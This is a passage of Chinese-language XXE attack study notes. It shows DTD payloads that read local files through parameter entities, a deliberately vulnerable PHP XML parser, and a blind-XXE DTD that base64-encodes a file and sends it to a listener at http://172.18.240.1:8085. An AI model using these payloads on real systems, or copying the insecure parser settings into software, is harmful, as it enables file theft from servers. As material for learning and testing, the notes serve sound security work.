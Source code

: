 利用`% 实体名;`可以实现先拼接后解析

EvilDTD：

```dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

evil.dtd：

```dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

实现了DTD之间的联动

### XXE盲注

上面的读文件利用，需要有回显。那无回显呢？

SYSTEM关键字支持http协议，想办法在URL后拼接回显结果，当然还是用参数实体

先定义一个file实体，用以读取文件；然后定义一个嵌套的int实体，int包含了send实体。其中`&#37;`是`%`的Unicode编码，因为`%`不允许出现在Entity的value中

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241106142351840.png)

测试的漏洞代码：

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
?>
```

LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件

#### 正确的盲注

xxetest.dtd，其中URL为回显vps地址

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Users/Administrator/Desktop/test.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://172.18.240.1:8085/?p=%file;'>">
```
